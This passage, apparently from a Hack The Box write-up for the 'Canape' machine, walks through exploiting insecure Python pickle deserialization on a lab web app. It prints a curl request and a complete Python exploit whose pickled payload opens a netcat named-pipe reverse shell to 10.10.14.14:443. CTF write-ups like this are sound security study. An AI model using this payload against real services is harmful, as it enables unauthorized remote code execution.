 With curl and we can POST to `/check` and verify.

```
root@kali:~/htb/canape# curl -X POST http://10.10.10.70/check -F 'id=27c2ef5f95bbc3e5fddecf2f5ed9eb8c'
Still reviewing: homertest
```

Notice that it's concatenating the two values together, we'll need to keep this in mind for our exploit. Alright we've got that part figured out, now we need to get serialized data into the `quote` field. We can do this with cPickle and it's `dump` function. There's a good article [here](https://blog.nelhage.com/2011/03/exploiting-pickle/) that explains how to do this using a class in python. 

So we basically need to do a few things to get code execution.

- Serialize code to execute using cPickle and submit it under `quote`
- Hash the `char` and `quote` fields we submit using md5 to use to recall the payload
- Submit a POST request to `/check` using the md5 hash created earlier as the value for `id` 

Let's write up an exploit to help automate all of this.

```python
import cPickle
from hashlib import md5
import os
import requests
import urllib

class shell(object):
    def __reduce__(self):
        return (os.system,("rm -f /var/tmp/backpipe; mknod /var/tmp/backpipe p; nc 10.10.14.14 443 0</var/tmp/backpipe | /bin/bash 1>/var/tmp/backpipe",))

quote = cPickle.dumps(shell())

char = "(S'homer'\n"

p_id = md5(char + quote).hexdigest()

submit_url = "http://10.10.10.70/submit"
check_url = "http://10.10.10.70/check"

client = requests.session()

post_data = [('character',char), ('quote',quote)]

post_request = client.post(submit_url, data=post_data)

post2_data = [('id',p_id)]

post2_request = client.post(check_url, data=post2_data)
```

Let's break this code down.
